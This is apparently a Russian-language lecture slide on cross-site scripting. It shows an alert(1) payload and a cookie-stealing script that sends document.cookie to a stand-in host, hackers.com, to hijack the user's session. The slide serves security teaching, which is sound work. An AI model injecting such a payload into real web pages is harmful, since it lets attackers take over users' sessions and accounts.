

# XSS. Примеры
Безобидная шалость

<script>alert(1);</script>

Кража сессии (и как следствие - авторизации)

<script>
	const s = document.createElement('script');
	s.src = 'http://hackers.com/gotIt/?cookie' + encodeURIComponent(document.cookie);
	document.body.appendChild(s);
</script>
15